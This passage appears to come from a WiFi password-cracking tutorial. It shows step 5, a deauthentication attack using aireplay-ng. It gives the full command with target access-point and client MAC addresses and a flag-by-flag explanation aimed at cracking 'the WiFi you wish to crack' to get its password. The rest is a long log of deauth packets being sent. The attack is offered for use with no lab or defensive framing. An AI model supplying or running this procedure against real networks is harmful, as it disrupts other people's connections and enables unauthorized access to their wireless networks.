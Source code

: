   

5. DeAuthenticate a connected Device

```
# aireplay-ng -0 0 -a BC:98:89:9D:3C:58 -c e4:b3:18:08:c9:79 wlan0mon

```

- -0  sets the count of number of deauthentication packets to send to the connected clients, station(s).
- -a  specify or set Access Point MAC Address, this case the BSSID of the WiFi you wish to crack its WEP and WPA-PSK Keys to get its password.
- -c  specify or set destination MAC address, in this case is the Device, STATION you want to deauthenticate from the WiFi network.
- wlan0mon  specifies the interface on promiscuous mode.

Output

```
21:36:50  Waiting for beacon frame (BSSID: BC:98:89:9D:3C:58) on channel 11
21:36:51  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [13|29 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [10|26 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|21 ACKs]
21:36:53  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|20 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 7|22 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [32|28 ACKs]
21:36:55  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [47|29 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|32 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [30|29 ACKs]
21:36:57  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|62 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [90|60 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|57 ACKs]
21:36:59  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [67|48 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [91|51 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [70|64 ACKs]
21:37:01  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [25|41 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|43 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [38|25 ACKs]
21:37:03  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|34 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|52 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [82|48 ACKs]
21:37:05  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [14|41 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|38 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [43|44 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [21|42 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|41 ACKs]
21:37:08  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 5|22 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|32 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|29 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|40 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 9|42 ACKs]
21:37:11  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [20|28 ACKs]
21:37:12  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|37 ACKs]
```
